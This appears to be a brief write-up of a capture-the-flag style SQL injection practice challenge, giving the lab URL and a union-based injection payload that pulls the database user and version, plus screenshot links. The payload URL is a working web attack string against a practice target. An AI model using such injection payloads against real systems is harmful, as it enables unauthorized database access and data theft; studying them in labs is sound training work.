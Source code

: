 Chall Url: http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7
Payload: http://www.zixem.altervista.org/SQLi/level4.php?ebookid=78'%20union%20select%20user(),version(),3,4,5%20--%27
![](https://user-images.githubusercontent.com/25671488/61186550-77f5c480-a684-11e9-83f9-612301fcee88.png)
